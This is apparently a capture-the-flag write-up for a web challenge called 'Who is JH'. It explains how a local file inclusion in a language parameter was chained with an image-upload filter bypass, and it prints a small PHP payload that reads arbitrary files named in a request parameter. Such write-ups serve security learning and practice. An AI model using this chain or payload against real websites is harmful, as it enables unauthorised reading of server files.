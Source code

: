 # Challenge Statement 
![image](https://github.com/user-attachments/assets/e9f72d09-1e0c-4cb7-8a11-01be8532e699)

Attachment: [Who is JH.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Who%20is%20JH.zip)

# Solution
Exploring the webapp, we find `/upload.php` where we can upload image files only (JPG, PNG, GIF).
![image](https://github.com/user-attachments/assets/49e91284-1289-4518-a5a8-5ddc35909057)

We also find the `/conspiracy.php` which has two language filters which changes the URL to `?language=languages/french.php`. This indicates the possibility of a **LFI vulnerability**. <br />

Going through the source code, we find `log.php`, which shows `/logs/site_log.txt` where all the logs are being stored. Here we can see that the uploaded files are being renamed. <br />
![image](https://github.com/user-attachments/assets/979ab69b-e313-4349-b62e-9ecbd0fb5dd6)

Now we just have to upload a php file with the .jpg extension and using `/conspiracy.php?language=uploads/(.php.jpg file)` we can execute it. <br />
The php file I used it - 
```
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    echo file_get_contents($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```
![image](https://github.com/user-attachments/assets/50b149c6-6422-4582-bcd1-d03666694e22)
